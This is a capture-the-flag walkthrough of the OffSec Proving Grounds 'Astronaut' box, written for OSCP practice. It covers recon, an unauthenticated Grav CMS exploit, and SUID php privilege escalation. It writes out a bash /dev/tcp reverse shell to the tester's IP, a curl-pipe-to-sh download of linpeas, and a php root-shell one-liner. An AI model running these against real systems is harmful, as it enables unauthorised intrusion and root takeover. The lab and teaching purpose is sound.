


# Recon

This machine has a Linux OS and is rated intermediate by the community.

Remember to make an entry for the IP in `/etc/hosts` file. My entry looks like:
```
192.168.188.12  astronaut.offsec
```
## Nmap
``` bash
nmap -p- --open -sC -sV astronaut.offsec
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.


The nmap scan discovered a volume with `grav-admin` folder.
- Browsing to this folder in the browser `http://astronaut.offsec/grav-admin/` shows a default installation page

## Gobuster
``` bash
gobuster dir -u astronaut.offsec/grav-admin/ -w /usr/share/seclists/Discovery/Web-Content/common.txt 
```

The gobuster scan found an admin panel at `/admin/` and many other endpoints.

## Searchsploit
As the website is built with grav, we can search for known exploits using searchsploit.
``` bash
searchsploit grav
``` 

I  like to look at python scripts first, so the first script I will look at is the Arbitrary YAML Write/Update script as that one is **unauthenticated**.

### Arbitrary YAML Write/Update
First, download the unauthenticated script by using `searchsploit -m php/webapps/49973.py`
- looking at the code, we can see that the target is set to a variable
- change this target to `http://astronaut.offsec/grav-admin`
  - this is because the URL `http://astronaut.offsec` only has a directory named grav-admin, so we must specify that directory for the exploit
- the script says to run the following command and replace the output with the base64 encoded value in the script


For the command, you will need to replace the IP and port to the listening host (Kali IP and Port)
- I will be using the command `nc -lnvp 4444` to start a listener on my kali host with IP `192.168.45.220`
- So, the command I will run is `echo -ne "bash -i >& /dev/tcp/192.168.45.220/4444 0>&1" | base64 -w0`
- then, replace the contents in the designated `base64_decode()` function

Start a netcat listener and run the script using `python3 49973.py`
- after a couple seconds, a shell is generated with the user


# Privilege Escalation
## Manual commands
``` bash
find / -type f -perm -4001 -exec ls -la {} \; 2> /dev/null
```

### Explanation:
`find / -type f -perm -4001`:
find: Initiates the find command for searching files and directories.
`/`: Specifies the starting directory for the search (root directory in this case).
`-type f`: Specifies that only files (not directories) should be considered in the search.
`-perm -4001`: Searches for files with the SUID bit set. The SUID bit, when set, allows a file to be executed with the permissions of its owner.

`-exec ls -la {} \;`:
`-exec`: Executes a command for each matched file. The command is
  `ls -la {}`: Uses the `ls` command to list information about the found files. The `-la` option is used to make a list showing all files and details.
  `{}`: is replaced by the matched file for each iteration.
  `\;`: Marks the end of the -exec command.

`2> /dev/null`:
`2>`: Redirects standard error (stderr) to a specified location.
`/dev/null`: A special file in Unix-like operating systems that discards any data written to it.



## Linpeas
To assess the attack surface further, run `linpeas.sh` on the target:
- run a python http server in the directory with the `linpeas.sh` file with `python3 -m http.server 80`
- then use the `curl` command with `sh` to run the script on the target machine
- the IP specified is downloading from my Kali host
``` bash
curl http://192.168.45.220/linpeas.sh | sh
```

### Linpeas Results
The linpeas results showed php7.4 binary file in the directory `/usr/bin/php7.4` that has an unknown SUID binary. The output is shown below
```
-rwsr-xr-x 1 root root 4.6M Feb 23  2023 /usr/bin/php7.4 (Unknown SUID binary!)
```

We can confirm these findings with the manual enumeration commands we used. We did indeed find a php7.4 file.
- Using this information we can try to find privilege escalation for PHP SUID in [GTFOBins](https://gtfobins.github.io/gtfobins/php/)

GTFOBins uses the following command, the previous parts can be ignored as we know the version number of php.
``` bash
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

In order for this command to fit our context, we would change the running script to 
``` bash
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```
- the flag is located in the `/root` folder

# Summary
The "Astronaut" box in Proving Grounds Practice involves a comprehensive penetration testing approach. 
Initial reconnaissance using Nmap uncovers a Grav CMS installation with potential vulnerabilities. 
Gobuster identifies an admin panel, while Searchsploit yields an unauthenticated YAML Write/Update script which needs to be adapted. 
Manual enumeration reveals files with the SUID bit set, further explored with LinPEAS, confirming an unknown SUID binary, `/usr/bin/php7.4`. 
Exploiting this binary using GTFOBins facilitates privilege escalation, granting access to the /root folder where the flag is found. 
This walkthrough provides practical insights into various stages of a penetration test, offering a valuable learning experience for OSCP preparation.

Join me for the next machine soon for more exciting challenges and security insights!

+10 points

